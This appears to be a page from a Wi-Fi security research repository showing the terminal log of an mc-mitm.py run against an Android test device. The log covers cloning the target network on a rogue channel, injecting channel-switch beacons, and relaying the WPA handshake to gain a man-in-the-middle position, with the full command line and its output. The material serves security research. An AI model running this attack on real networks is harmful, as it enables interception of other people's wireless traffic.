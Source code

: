 
## Against Android device (May 8, 2022)

	(venv) [root@zbook-mathy research]# ./mc-mitm.py wlp0s20f0u1 wlp0s20f3 testnetwork --debug -t 00:11:11:11:11:11 --strict-echo-test --continuous-csa
	[01:34:44] Note: remember to disable Wi-Fi in your network manager so it doesn't interfere with this script
	[01:34:44] Note: keep >1 meter between interfaces. Else packet delivery is unreliable & target may disconnect
	[01:34:45] Monitor mode: using wlp0s20f0u1 on real channel and wlp0s20f3mon on rogue channel.
	[01:34:45] Target network 00:22:22:22:22:22 detected on channel 1
	[01:34:45] Will use wlp0s20f3 to create rogue AP on channel 11
	[01:34:45] Setting MAC address of wlp0s20f3 to 00:22:22:22:22:22
	[01:34:45] Attaching filter to wlp0s20f0u1: (wlan type data or wlan type mgt) and ((wlan addr1 00:22:22:22:22:22) or (wlan addr2 00:22:22:22:22:22) or (wlan addr1 00:11:11:11:11:11) or (wlan addr2 00:11:11:11:11:11))
	[01:34:45] Attaching filter to wlp0s20f3mon: (wlan type data or wlan type mgt) and ((wlan addr1 00:22:22:22:22:22) or (wlan addr2 00:22:22:22:22:22) or (wlan addr1 00:11:11:11:11:11) or (wlan addr2 00:11:11:11:11:11))
	[01:34:45] Giving the rogue hostapd one second to initialize ...
	[01:34:46] Injected 4 CSA beacon pairs (moving stations to channel 11)
	[01:34:54] Rogue channel: 00:11:11:11:11:11 -> 00:22:22:22:22:22: ProbeReq(seq=2052)
	[01:34:54] Rogue channel: 00:22:22:22:22:22 -> 00:11:11:11:11:11: ProbeResp(seq=128)
	[01:34:54] Rogue channel: 00:11:11:11:11:11 -> 00:22:22:22:22:22: Auth(seq=2053, status=0) -- MitM'ing
		   Client 00:11:11:11:11:11 moved to state 2
		   Established MitM position against client 00:11:11:11:11:11
		   Sending fake auth to rouge AP to register client
	[01:34:54] Sent frame to hostapd: Auth(seq=0, status=0)
	[01:34:54] Rogue hostapd: nl80211: sta_remove -> DEL_STATION wlp0s20f3 00:11:11:11:11:11 --> -2 (No such file or directory)
	[01:34:54] Rogue hostapd: nl80211: Add STA 00:11:11:11:11:11
	[01:34:54] Rogue hostapd: send_auth_reply: not sending own authentication reply
	[01:34:54] Real channel : 00:22:22:22:22:22 -> 00:11:11:11:11:11: Auth(seq=2732, status=0) -- MitM'ing
	[01:34:54] Rogue channel: 00:11:11:11:11:11 -> 00:22:22:22:22:22: AssoReq(seq=2054) -- MitM'ing
	[01:34:54] Sent frame to hostapd: AssoReq(seq=2054)
	[01:34:54] Real channel : 00:22:22:22:22:22 -> 00:11:11:11:11:11: AssoResp(seq=2736, status=0) -- MitM'ing
	[01:34:54] Real channel : 00:22:22:22:22:22 -> 00:11:11:11:11:11: EAPOL-Msg1(seq=0, replay=1) -- MitM'ing
	[01:34:54] Rogue hostapd: send_auth_reply: not sending own authentication reply
	[01:34:54] Rogue hostapd: send_assoc_resp: not sending association reply (status=0)
	[01:34:54] Rogue hostapd: __wpa_send_eapol: not sending EAPOL frame
	[01:34:54] Rogue hostapd: nl80211: sta_remove -> DEL_STATION wlp0s20f3 00:11:11:11:11:11 --> 0 (Success)
	[01:34:54] Rogue hostapd: nl80211: Add STA 00:11:11:11:11:11
	[01:34:54] Rogue channel: 00:11:11:11:11:11 -> 00:22:22:22:22:22: EAPOL-Msg2(seq=0, replay=1) -- MitM'ing
	[01:34:54] Rogue hostapd: send_assoc_resp: not sending association reply (status=0)
	[01:34:54] Rogue hostapd: __wpa_send_eapol: not sending EAPOL frame
	[01:34:54] Real channel : 00:22:22:22:22:22 -> 00:11:11:11:11:11: EAPOL-Msg3(seq=1, replay=2) -- MitM'ing
	[01:34:54] Rogue channel: 00:11:11:11:11:11 -> 00:22:22:22:22:22: EAPOL-Msg4(seq=1, replay=2) -- MitM'ing
	[01:34:54] Rogue hostapd: wpa_receive: Igning all EAPOL frames
	[01:34:54] Rogue channel: 00:11:11:11:11:11 -> 00:22:22:22:22:22: EncData(PN=1, len=246) -- MitM'ing
	[01:34:54] Rogue channel: 00:11:11:11:11:11 -> 00:22:22:22:22:22: EncData(PN=2, len=380) -- MitM'ing
	[01:34:55] Rogue channel: 00:11:11:11:11:11 -> 00:22:22:22:22:22: EncData(PN=3, len=122) -- MitM'ing